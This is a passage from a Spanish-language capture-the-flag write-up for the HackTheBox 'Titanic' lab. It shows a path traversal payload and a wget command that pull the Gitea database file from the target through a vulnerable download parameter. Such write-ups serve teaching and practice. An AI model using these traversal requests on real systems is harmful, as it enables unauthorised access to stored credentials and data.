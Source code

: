 aunque esto no sirve de mucho

usando la vulnerabilidad path traversal, busco el docker compose, para ver si tiene algo diferente al del gitea:
<img src="/images/writeup-titanic/Pasted image 20250501092017.png">
pero no, aunque nos da info interesante, docker usa volúmenes por lo cual, aquí en el compose nos esta diciendo la ruta donde se ubica

si vamos a:
```
/../../../../../home/developer/gitea/data/gitea/gitea.db
```

<img src="/images/writeup-titanic/Pasted image 20250501092351.png">

tenemos la base de datos del gitea y podemos descargarla a nuestra maquina con un wget:
```bash
wget 'http://titanic.htb/download?ticket=/../../../../../home/developer/gitea/data/gitea/gitea.db'
```
